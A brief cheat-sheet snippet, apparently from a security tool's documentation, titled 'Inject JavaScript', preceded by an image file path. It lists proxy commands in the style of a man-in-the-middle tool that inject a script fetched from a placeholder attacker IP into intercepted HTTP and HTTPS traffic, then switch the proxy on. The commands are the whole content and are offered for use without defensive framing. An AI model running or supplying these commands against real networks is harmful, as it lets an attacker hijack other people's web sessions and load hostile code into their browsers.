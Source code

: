 # Inject JavaScript

```
set https.proxy.injectjs http[s]://<IP>/script.js

https.proxy on
```

```
set http.proxy.injectjs http[s]://<IP>/script.js

http.proxy on
```